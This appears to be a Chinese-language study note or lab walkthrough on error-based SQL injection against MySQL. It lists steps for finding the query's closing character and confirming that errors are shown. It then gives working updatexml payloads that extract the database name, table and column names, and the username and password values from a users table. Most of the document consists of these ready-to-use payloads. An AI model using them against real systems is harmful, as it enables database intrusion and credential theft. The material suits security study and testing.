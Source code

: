 `updatexml`,`extractvalue`,`exp`,`floor`



> 1.判断闭合符号 `‘`，`“`， ，`’)`，`”)`，和`and 1=1` && `and 1=2`,发现不会回显，但是通过页面显示会不正常，可判断正确的闭合符号
>
> 2.在通过`and select database()`,会发现还是有报错语句出现，说明可用报错注入
>
> 3.获得当前数据库名

```
updatexml(1,concat(0x7e,(select database()),0x7e),1)-- s
```

> 4.获得当前数据库所有表名

```
updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)-- s
```

> 5.获取当前数据库user表所有列名称

```
updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),1,31),0x7e),1)-- s
```

> 6.获取当前数据库user表所有username和password的值

```
updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1)-- s
updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),32,31),0x7e),1)-- s
```

>注意：为什么是31？
>
>![image-20230813165005784](../资源文件/图片/image-20230813165005784.png)
>